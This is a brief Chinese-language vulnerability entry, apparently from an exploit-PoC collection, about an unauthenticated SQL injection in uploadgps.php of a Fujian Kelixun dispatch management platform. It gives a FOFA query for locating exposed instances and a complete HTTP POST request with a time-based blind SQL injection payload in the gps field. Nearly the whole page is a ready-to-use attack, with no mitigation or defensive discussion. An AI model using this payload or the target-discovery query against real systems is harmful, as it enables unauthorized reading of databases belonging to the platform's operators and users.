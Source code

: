 ## 福建科立讯通信有限公司指挥调度管理平台uploadgps.php存在SQL注入漏洞

福建科立讯通信有限公司指挥调度管理平台uploadgps.php存在SQL注入漏洞，未经身份验证的远程攻击者可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```
body="指挥调度管理平台"
```

## poc

```
POST /api/client/task/uploadgps.php HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

uuid=&gps=1'+AND+(SELECT+7679+FROM+(SELECT(SLEEP(5)))ozYR)+AND+'fqDZ'='fqDZ&number=
```

